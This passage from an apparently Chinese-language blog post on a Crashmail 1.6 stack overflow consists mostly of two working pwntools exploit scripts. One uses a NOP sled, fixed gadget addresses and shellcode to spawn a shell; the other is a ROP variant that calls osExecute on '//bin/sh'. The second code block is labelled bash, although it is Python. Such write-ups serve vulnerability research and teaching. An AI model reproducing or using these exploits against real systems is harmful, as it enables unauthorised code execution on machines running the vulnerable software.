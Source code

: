 ## shellcode版本

```python
#!/usr/bin/python

# shellcode版本
from subprocess import run
from pwn import *

context.arch = 'i386'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-hb']

offset = 0xd8       # buf数组到栈上面保存rbp的距离
xchg_eax_esi_ret = 0x80674ab
jmp_eax = 0x8051807

shellcode = asm(shellcraft.sh())

payload = b'\x90' * offset + p32(xchg_eax_esi_ret) + \
            p32(jmp_eax) + b'\x90' * 0x300 + shellcode

run(["/test/crashmail-1.6/bin/crashmail", "SETTINGS", payload])
```

![1.png](/assets/posts/2025-04-17-Crashmail 栈溢出漏洞分析/1.png)

## rop版本

```bash
#!/usr/bin/python

# rop版本
from subprocess import run
from pwn import *

context.arch = 'i386'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-hb']

offset = 0xd8       # buf数组到栈上面保存rbp的距离
xchg_eax_esi_ret = 0x80674ab
osExecute = 0x80649CF     # push    eax; call    osExecute

rw_seg = 0x807d010

payload = b'\x90' * offset + p32(xchg_eax_esi_ret) + p32(osExecute) + \
					b'\x90' * 0x24c + b'//bin/sh #'

run(["/test/crashmail-1.6/bin/crashmail", "SETTINGS", payload])
```

![批注 2025-04-17 154222.png](/assets/posts/2025-04-17-Crashmail 栈溢出漏洞分析/%E6%89%B9%E6%B3%A8_2025-04-17_154222.png)